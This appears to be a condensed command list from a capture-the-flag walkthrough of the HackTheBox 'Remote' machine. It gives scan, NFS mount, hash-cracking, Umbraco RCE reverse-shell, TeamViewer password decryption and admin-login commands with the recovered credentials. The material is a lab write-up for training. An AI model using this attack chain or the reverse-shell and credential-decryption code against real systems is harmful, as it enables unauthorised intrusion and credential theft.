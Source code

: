 Here's a cleaned-up, **ordered list of all commands used** in the [HTB: Remote](https://0xdf.gitlab.io/2020/09/05/htb-remote.html) walkthrough by 0xdf:

---

## 🔍 **Recon**

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.180
nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
```

## 🌐 [**Web Enumeration**](HTTP)

- No specific commands listed for web recon (manual browsing used).
- Umbraco admin panel discovered at `/Umbraco`.

## 📂 **NFS Enumeration & Mounting**

```bash
showmount -e 10.10.10.180
mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt/App_Data
strings Umbraco.sdf | head
```

## 🔓 **Hash Cracking**

```bash
cat admin.sha1
# (file contains: b8be16afba8c314ad33d812f22a04991b90e2aaa)

hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force
```

## 💥 **Exploit (Umbraco RCE)**

```bash
# Prepare PowerShell reverse shell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443" >> shell.ps1

# Serve the payload
python3 -m http.server 80

# Run exploit (Python script edited to call shell.ps1)
python umbraco_rce_iex.py
```

## 🐚 **Catch Reverse Shell**

```bash
rlwrap nc -lvnp 443
```

## 🔎 **Post-Exploit Enumeration (TeamViewer found)**

```powershell
tasklist
cd 'HKLM:\software\wow6432node\teamviewer\version7'
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```

## 🔑 **Decrypt TeamViewer Password (Python)**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174,
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218,
                    126, 141, 55, 107, 38, 57, 78, 91])
aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
print(f"[+] Found password: {password}")
```

## 🪟 [**Admin Access**](SMB)

```bash
# Validate admin creds
crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'

# Evil-WinRM shell
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

# Optional alternatives
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

---

📎 **Write-up Link**: [HTB: Remote by 0xdf](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
